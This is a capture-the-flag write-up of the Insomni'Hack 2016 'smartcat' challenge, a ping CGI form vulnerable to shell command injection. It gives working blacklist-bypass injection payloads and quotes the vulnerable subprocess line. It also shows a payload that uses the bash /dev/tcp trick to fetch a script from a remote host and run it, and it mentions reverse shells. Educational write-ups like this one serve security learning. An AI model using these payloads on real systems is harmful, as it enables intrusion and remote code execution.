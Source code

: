 ```yaml
---
title:      Insomni'Hack Teaser 2016 - smartcat
author:
date:       2016-01-16 01:25:00
summary:    Thou shalt not use blacklists!
categories: InsomniHack Web
tags:
 - Insomni'Hack
 - Web
---
```


In the smartcat challenge, we were given a tiny web
application with just a single functionality: a form that allows
to remotely ping an arbitrary host (yeah, that is the most classical
example of shell command injection!).
The challenge is divided in two parts (smartcat1 and smartcat2).
Although not difficult, it was quite fun, especially the second part.




### smartcat1 (50 points)

> Damn it, that stupid smart cat litter is broken again! Now only the debug interface is available [here](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) and this stupid thing only permits one ping to be sent! I know my contract number is stored somewhere on that interface but I can't find it and this is the only available page! Please have a look and get this info for me!

Pointing a browser to the debug interface, we are greeted with a form that
accepts a single parameter and
prints what seems the output of the Linux `ping` command. In fact, pinging
a non-existent host gives the message `Error running ping -c 1`.
Trying a trivial injection fails, and the error reveals that there is a blacklist
of allowed characters in the request string.
Good, otherwise the challenge would not have been fun at all!

After a few tries, we notice that the newline character (`0x0A`) is not blacklisted:
we are able to retrieve the path and content of the current directory with a POST
request to `index.cgi`, using `%0apwd%0als` as the `dest` parameter (i.e., the host to ping).
This leads to this output:

    /var/www/cgi-bin
    index.cgi
    there

Likely, the flag is in `there`, which is a directory. Unfortunately, the whitespace
character is blacklisted, so can't use the ls command to list the contents.
To overcome this issue, we used `find` (without any argument) to recurse into
the subdirectories of the current directory and list their content.
Doing a request with `dest=%0afind` as a parameter leads to:

    .
    ./index.cgi
    ./there
    ./there/is
    ./there/is/your
    ./there/is/your/flag
    ./there/is/your/flag/or
    ./there/is/your/flag/or/maybe
    ./there/is/your/flag/or/maybe/not
    ./there/is/your/flag/or/maybe/not/what
    ./there/is/your/flag/or/maybe/not/what/do
    ./there/is/your/flag/or/maybe/not/what/do/you
    ./there/is/your/flag/or/maybe/not/what/do/you/think
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the
    ./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag

... and finally we just (smart)cat the flag: `dest=dest=%0acat<there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag`

{% highlight html %}
<p>Ping results:</p><br/>
  <pre>INS{warm_kitty_smelly_kitty_flush_flush_flush}
</pre>
{% endhighlight %}

By the way, using cat we can also retrieve the web application source code (`dest=%0acat<index.cgi`).
It is a simple Python CGI script, which filters the input according to a blacklist:

    blacklist = " $;&|({`\t"

and then passes it to the `ping` command without further sanitization:

    results = subprocess.check_output("ping -c 1 "+dest, shell=True)

### smartcat2 (50 points)

> Almost there, but now you should be able to do better than a cat (sorry about the pun). I'm sure you can leverage the previous bug to get a shell. Go on [that debug interface](http://smartcat.insomnihack.ch/cgi-bin/index.cgi) again and read the flag in /home/smartcat/

Now we are told that the flag is in `/home/smartcat`.
As we can't use whitespaces, we need a smarter way to `cd` to that directory and list the content: using `dest=%0aHOME=/home/smartcat%0acd%0als` does the trick, and reveals that the directory contains two files:

    flag2
    readflag

We don't have the permissions to read `flag2`, but we can read and execute `readflag` (which is an executable binary).
Running it, we are greeted with this message:

> Almost there... just trying to make sure you can execute arbitrary commands....
Write 'Give me a...' on my stdin, wait 2 seconds, and then write '... flag!'.
Do not include the quotes. Each part is a different line.

At this point, we decided to use some bash-fu to retrieve and execute
a file from a remote host.
We used the `/dev/tcp` bashism to retrieve a script from an remote host, and give it
as an input to `bash`:

{% highlight bash %}
bash << EOF
bash < /dev/tcp/127.0.0.1/9000
EOF
ls
{% endhighlight %}

a.k.a. `dest=%0Abash<<EOF%0Abash</dev/tcp/127.0.0.1/9000%0AEOF%0Als`.
We terminate the command with `ls` so that the CGI application receives a successful return code in any case.
Instead of 127.0.0.1, we put the address of a publicly-accessible host
which was serving the following file on TCP port 9000:

{% highlight bash %}
#!/bin/bash

cd /home/smartcat
(
   echo "Give me a..."
   sleep 2
   echo "... flag!"
) | ./readflag
{% endhighlight %}

That was it. And the flag is...

    Flag:
                ___
            .-"; ! ;"-.
          .'!  : | :  !`.
         /\  ! : ! : !  /\
        /\ |  ! :|: !  | /\
       (  \ \ ; :!: ; / /  )
      ( `. \ | !:|:! | / .' )
      (`. \ \ \!:|:!/ / / .')
       \ `.`.\ |!|! |/,'.' /
        `._`.\\\!!!// .'_.'
           `.`.\\|//.'.'
            |`._`n'_.'|  hjw
            "----^----"
    
    INS{shells_are _way_better_than_cats}

Of course, with the same trick, we could also have launched an interactive reverse shell and read the flag from there :-)
